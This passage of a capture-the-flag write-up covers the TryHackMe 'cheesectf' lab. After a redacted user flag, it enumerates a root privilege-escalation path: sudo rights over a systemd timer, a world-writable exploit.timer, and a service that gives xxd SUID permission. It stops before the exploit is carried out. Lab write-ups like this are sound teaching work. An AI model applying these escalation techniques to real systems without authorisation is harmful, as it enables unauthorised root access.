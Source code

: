 ```console
⠀⠀⠈⢿⣆⠀⠀⠀⠀⠀⠀⠀⣀⣤⣴⣶⣶⣤⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣠⣴⡶⠿⠛⠉⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⢨⣿⠀⠀⠀⠀⠀⠀⣼⡟⠁⠀⠀⠀⠹⣷⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣠⣤⣶⠿⠛⠉⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⣠⡾⠋⠀⠀⠀⠀⠀⠀⢻⣇⠀⠀⠀⠀⢀⣿⠀⠀⠀⠀⠀⠀⢀⣠⣤⣶⠿⠛⠋⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⢠⣾⠋⠀⠀⠀⠀⠀⠀⠀⠀⠘⣿⣤⣤⣤⣴⡿⠃⠀⠀⣀⣤⣶⠾⠛⠋⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⣿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠉⠉⠉⣀⣠⣴⡾⠟⠋⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⣿⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣠⣤⡶⠿⠛⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⣿⡇⠀⠀⠀⠀⣀⣤⣴⠾⠟⠋⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⢻⣧⣤⣴⠾⠟⠛⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠘⠋⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀


THM{REDACTED}
```

## Root Flag

We can run command `sudo -l` to see which commands we can run as root :

```console
comte@cheesectf:~$ sudo -l
User comte may run the following commands on cheesectf:
    (ALL) NOPASSWD: /bin/systemctl daemon-reload
    (ALL) NOPASSWD: /bin/systemctl restart exploit.timer
    (ALL) NOPASSWD: /bin/systemctl start exploit.timer
    (ALL) NOPASSWD: /bin/systemctl enable exploit.timer
```

We can see that there is one systems timer `exploit.timer` that we can run as root. Also, there is one service file `exploit.service`.
```console
comte@cheesectf:~$ ls -lah /etc/systemd/system
total 128K
...
-rw-r--r--  1 root root  141 Mar 29 15:36 exploit.service
-rwxrwxrwx  1 root root  156 Sep 24 21:29 exploit.timer
...
```

We can see what this service file is doing:
```console
comte@cheesectf:/etc/systemd/system$ cat exploit.service 
[Unit]
Description=Exploit Service

[Service]
Type=oneshot
ExecStart=/bin/bash -c "/bin/cp /usr/bin/xxd /opt/xxd && /bin/chmod +sx /opt/xxd"
```

So, this service is copying `xxd` binary into `/opt` folder and assigning SUID permission to this binary, but we can't edit this file. But we can edit `exploit.timer` file that will run this service.

```console
comte@cheesectf:/etc/systemd/system$ cat exploit.timer 
[Unit]
Description=Exploit Timer
Requires=exploit.service

[Timer]
Unit=exploit.service
OnBootSec=3s
OnUnitInactiveSec=3s

[Install]
WantedBy=timers.target
```
